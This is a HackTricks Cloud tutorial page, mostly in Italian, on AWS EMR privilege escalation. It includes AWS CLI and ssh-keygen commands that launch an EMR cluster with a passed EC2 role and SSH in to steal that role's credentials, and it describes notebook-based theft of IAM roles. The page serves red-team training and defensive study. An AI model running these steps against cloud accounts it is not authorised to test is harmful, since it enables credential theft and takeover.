 # AWS - EMR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

Ulteriori **info su EMR** in:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Un attaccante con questi permessi può **eseguire un nuovo cluster EMR allegando ruoli EC2** e cercare di rubare le sue credenziali.\
Nota che per fare questo dovresti **conoscere qualche chiave privata ssh importata nell'account** o importarne una, e essere in grado di **aprire la porta 22 nel nodo master** (potresti essere in grado di farlo con gli attributi `EmrManagedMasterSecurityGroup` e/o `ServiceAccessSecurityGroup` all'interno di `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Nota come un **ruolo EMR** è specificato in `--service-role` e un **ruolo ec2** è specificato in `--ec2-attributes` all'interno di `InstanceProfile`. Tuttavia, questa tecnica consente solo di rubare le credenziali del ruolo EC2 (poiché ci si connetterà tramite ssh) ma non il ruolo IAM EMR.

**Impatto Potenziale:** Privesc al ruolo di servizio EC2 specificato.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Con questi permessi un attaccante può andare alla **console AWS**, creare un Notebook e accedervi per rubare il ruolo IAM.

{% hint style="danger" %}
Anche se attacchi un ruolo IAM all'istanza del notebook, nei miei test ho notato che ero in grado di rubare credenziali gestite da AWS e non credenziali relative al ruolo IAM.
{% endhint %}

**Impatto Potenziale:** Privesc al ruolo gestito da AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Solo con questo permesso un attaccante sarà in grado di accedere al **Jupyter Notebook e rubare il ruolo IAM** associato ad esso.\
L'URL del notebook è `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Anche se attacchi un ruolo IAM all'istanza del notebook, nei miei test ho notato che ero in grado di rubare credenziali gestite da AWS e non credenziali relative al ruolo IAM.
{% endhint %}

**Impatto Potenziale:** Privesc al ruolo gestito da AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
